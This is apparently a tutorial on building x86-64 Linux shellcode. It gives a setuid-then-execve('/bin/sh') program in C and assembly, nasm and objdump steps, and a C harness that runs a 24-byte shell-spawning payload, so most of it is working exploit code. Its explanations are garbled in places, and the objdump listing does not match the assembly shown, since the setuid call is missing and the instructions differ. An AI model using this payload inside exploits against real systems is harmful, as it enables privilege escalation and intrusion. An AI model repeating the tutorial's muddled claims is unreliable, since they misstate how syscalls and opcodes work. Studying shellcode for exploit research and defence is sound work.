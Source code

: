 # shellcode
Shellcode is a set of instructions opcode that can be run by the program because shellcode operates directly on registers and functions, so opcode must be hex.


Since it's an attack, shellcode's main purpose is to call system functions, and there are two ways to do that under x86 in Linux.


The first is to break int 0x80 into the kernel state by calling directly to achieve the purpose of the call.


The second is by calling libc for syscall(64 bits) and sysenter(32 bits)


Syscall is currently recommended in 64-bit Linux, as opcode is a 16-bit set of instructions that can be compiled to execute code by first coming out of assembly code, and finally looking at opcode.

shell.c
```
#include <stdio.h>
int main(){
setuid(0);
execve("/bin/sh",NULL,NULL);
}
```
The corresponding assembly code is as follows

```
global _start
 
_start:
 
xor rdi,rdi
xor rax,rax
mov al,0x69
syscall
 
xor rdx, rdx
mov rbx, 0x68732f6e69622fff
shr rbx, 0x8
push rbx
mov rdi, rsp
xor rax, rax
push rax
push rdi
mov rsi, rsp
mov al, 0x3b
syscall
```
This is not a result of disassembly of shell.c, but a result of reference to some materials, you can click to open the link

This code is not shellcode that can be executed, but we can get the opcode we need by compiling it into executable files
```
nasm -f elf64 shell.asm   
ld -o shell shell.o
objdump -d shell
```
Note: elf64 is used under 64 bits and elf32 is used under 32 bits


Using objdump results as follows:
```
shell:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:	6a 3b                	pushq  $0x3b
  400082:	58                   	pop    %rax
  400083:	99                   	cltd   
  400084:	52                   	push   %rdx
  400085:	48 bb 2f 2f 62 69 6e 	movabs $0x68732f6e69622f2f,%rbx
  40008c:	2f 73 68 
  40008f:	53                   	push   %rbx
  400090:	54                   	push   %rsp
  400091:	5f                   	pop    %rdi
  400092:	52                   	push   %rdx
  400093:	57                   	push   %rdi
  400094:	54                   	push   %rsp
  400095:	5e                   	pop    %rsi
  400096:	0f 05                	syscall 
```
```
shellcode.c
#include <stdio.h>
#include <string.h>
char *code = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05";
int main()
{
    printf("len:%d bytes\n", strlen(code));
    (*(void(*)()) code)();
    return 0;
}
```




